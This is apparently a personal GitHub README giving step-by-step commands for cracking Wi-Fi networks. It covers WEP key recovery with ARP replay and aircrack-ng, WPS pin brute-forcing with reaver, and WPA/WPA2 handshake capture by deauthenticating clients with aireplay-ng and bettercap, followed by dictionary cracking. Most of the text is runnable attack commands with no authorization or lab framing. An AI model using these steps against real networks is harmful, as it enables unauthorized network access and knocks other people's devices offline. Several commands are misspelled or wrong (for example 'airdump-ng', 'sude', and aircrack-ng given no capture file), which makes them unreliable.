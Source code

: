 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks and exploiting vulnerabilities in their encryption protocols (e.g., WEP, WPA, WPA2).


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch
- bettercap

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Finding the 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Find packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Find on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```

### Another way to get WPA passcodes (Wireless Access with Bettercap on Kali Linux) - four way handshake

- Change the wireless adapter to monitor mode
- activate bettercap -iface and activate net.recon
- activate wifi.recon and can see the access points of the environment we are sniffing by using **wifi.show**
- then we activate some other modules
```bash
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap
```
- We the deauth the SSID we want
``` bash
wifi.deauth <SSID of the wifi network>
```

- We wait until we see hanshakes are captured by bettercap

### Another way to find weaknesses  WPA2 /WPA3 (Handshakes)

- **ip addr** to show the IP address of the Wlan0 network for the wifi adapter.
- **iw dev** to show the wifi adapter and the mode its in.
- We will kill all processes
```bash
sudo airmon-ng check kill
```

- We then start the wifi adapter to change it to monitor mode.
```bash
sudo airmon-ng start wlan0
```

- We scan for the wifi networks.
```bash
sudo airmon-ng check kill
```

- Save the BSSID and Channel and ESSID
- Now we can create a file and capture 802.11 frames that were captured to a file.
```bash
sudo
airodump-ng –w captures – bssid <MAC Address> wlan0
```
- Now we will create a deauth attack to the wifi network and then we will try to connect to the network with another device to capture the handshake

```bash
sudo aireplay-ng –deauth 0 – a <MAC Address of AP> wlan0
```

- We open the capture file with wireshark. **wireshark captureFile-01.cap**
- We need to filter the data by typing eapol and look for a reply and then a WPA Key Data

![image](https://github.com/user-attachments/assets/0b96849d-c7eb-4d7d-b3cc-d6b1e41e8526)

- We the stop monitor mode for the wifi adapter

```bash
sude airmon-ng stop wlan0
```

- We got to wordlists and download rockup.txt file
- We then use the rockyou file to crack the password
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt
```




 
￼
